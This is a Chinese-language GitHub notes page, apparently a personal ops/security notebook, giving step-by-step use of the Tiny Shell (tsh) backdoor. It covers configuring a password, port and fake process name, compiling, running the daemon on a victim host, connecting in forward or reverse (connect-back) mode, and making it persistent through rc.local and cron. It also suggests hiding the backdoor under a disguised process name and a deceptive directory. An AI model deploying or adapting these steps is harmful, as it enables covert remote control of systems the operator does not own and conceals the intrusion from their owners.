




# Tiny shell后门

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-Tiny%20shell%E5%90%8E%E9%97%A8.md)

Tiny Shell 是一款开源的Unix类后门shell工具，由C语言编写，体积小，通信加密，分为客户端和服务端，支持正向连接和反弹连接模式

```
https://github.com/orangetw/tsh
```

**使用：**

- **正向：**

首先打开**tsh.h**设置密码（用户加密客户端与服务端的通信数据）；

修改SERVER_PORT值（后门运行后监听的端口）；

修改FAKE_PROC_NAME值（用于伪装显示后门运行后的进程名字）；

注释掉**CONNECT_BACK***两行代码（这两行代码用户反向模式）；

这里因为演示就简单改一下，修改后如下所示：

 ``

编译：

```
make linux

#支持多种系统  linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf
```

编译完成后生成tsh(客户端)、tshd(服务端)两个文件：



服务端执行：

```
umask 077; HOME=/var/tmp ./tshd

./tshd
```


客户端:(除了获取shell之外，还可以执行单条命令、传输文件)

```
./tsh 203.0.113.1

#./tsh victim_ip
```



> **注**： 服务端运行后，其父进程PID是1，也就是说这个进程是守护进程除非重启系统，或者手动关闭，否则一直存在（**当然你也可以加入启动项，或者加入任务计划中**）

- **反向：**

编译前的准备工作和 编译正向模式类似，不过 需要将**CONNECT_BACK***两行去掉注释，即去掉//，并将ip改为客户端的ip，延时也可适当修改：


编译：

```
make linux
```

服务端运行

```
umask 077; HOME=/var/tmp ./tshd
./tshd
```

客户端运行：

```
./tsh cb  #cb表示反向模式
```



> **注：**这里只是简单演示，在实际使用中还可以进行各种欺骗性伪装，改进程名、移到欺骗性目录等等。

## 自启动

```
chmod +x /etc/rc.d/rc.local
vi /etc/rc.d/rc.local
```

在此文件中添加需要开机执行的脚本的绝对路径，如

```
/usr/local/shell/crontab.sh
```

保存退出，即可生效。

**设置定时任务后，系统重启后会自动定时执行，不需要再设置开机自启，如果发现有中断的情况，考虑crond服务的启动情况。**
